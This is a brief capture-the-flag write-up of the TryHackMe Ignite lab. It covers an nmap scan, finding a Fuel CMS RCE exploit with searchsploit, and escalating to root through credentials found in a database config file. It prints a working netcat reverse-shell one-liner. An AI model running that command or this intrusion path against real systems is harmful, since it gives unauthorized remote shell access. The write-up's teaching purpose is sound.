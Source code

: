 # TryHackMe Ignite

IP=10.10.122.235

nmap scan showed only one port open:
`80`

meaning there is a webpage there

Checking the webpage, it is obvious that it is a fuel cms website

`searchsploit fuel cms`

rce exploit for python2 was available and worked

created a reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <<IP>> 9999 >/tmp/f`

found the user flag at the home directory

Now the tricky part was getting the root flag. Initially I tried linpeas but that was extremely slow on this and I decided to skip that
I checked several proccesses if I could execute via root but not possible

then upon checking the site I saw it mentioned config files at a given directory

```
root
mememe
```
were in the database config file

and I found the root flag!
